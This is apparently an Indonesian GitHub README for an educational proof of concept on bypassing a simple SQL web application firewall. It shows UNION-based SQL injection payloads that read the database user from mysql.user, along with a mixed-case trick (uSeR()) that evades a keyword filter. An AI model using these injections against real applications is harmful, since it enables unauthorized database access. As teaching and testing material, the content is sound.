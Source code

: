 # Bypass SQL Web Application Firewall

_Proof of Concept_ untuk Bypass WAF berbasis SQL, untuk keperluan Pembelajaran Saja.

```sh
php sql-waf.php
```

![Demonstrasi Bypass WAF](demo.gif)

### Proof of Concept

 !!! Query Berikut dapat bervariasi, tergantung komputer anda. !!!

```sql
-- Contoh Query Sebuah Baris dengan 3 output
SELECT * FROM `table_name` WHERE `id` = 1337;

-- Contoh Query yang di-inject
SELECT * FROM `table_name` WHERE `id` = 1 ORDER BY 3; -- Estimasi Jumlah Tabel
SELECT * FROM `table_name` WHERE `id` =-1 UNION SELECT 1, user(), 3 FROM mysql.user; -- Mendapatkan User yang digunakan oleh Koneksi SQL
```

Dari Gateway bisa saja Memblokir Query yang mengandung resiko, ini adalah contoh WAF yang sederhana, dan kita dapat mencoba menerobos filter ini dengan menyuntik Query itu dengan query yang lainnya.

```sql
-- Contoh Kasus: function user di filter

SELECT * FROM `table_name` WHERE `id` =-1 UNION SELECT 1, user(), 3 FROM mysql.user; -- Output: Error

-- Contoh Query yang dapat menerobos filter ini
SELECT * FROM `table_name` WHERE `id` =-1 UNION SELECT 1, uSeR(), 3 FROM mysql.user; -- Output: user@localhost
```  
